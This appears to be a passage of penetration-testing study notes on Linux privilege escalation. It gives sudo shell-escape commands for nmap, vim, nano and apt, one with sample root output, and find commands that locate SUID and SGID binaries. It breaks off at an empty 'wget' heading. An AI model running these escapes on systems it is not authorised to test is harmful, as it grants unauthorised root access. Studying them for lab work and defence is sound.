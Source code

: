 ## Sudo Shell Escaping

#### nmap

```bash
sudo nmap --interactive
nmap> !sh
```

#### vim

```bash
sudo vim -c ':!/bin/sh'
```

#### nano

```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

#### apt

```bash
lojique@htb[/htb]$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
```

## SUID

SUID/Setuid stands for "set user ID upon execution", it is enabled by default in every Linux distribution. If a file with this bit is run, the uid will be changed by the owner one. If the file owner is `root`, the uid will be changed to `root` even if it was executed from user `bob`. SUID bit is represented by an `s`.

#### Find SUID binaries

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```

#### Find SGID binaries

```bash
find / -uid 0 -perm -6000 -type f 2>/dev/null
```

#### wget
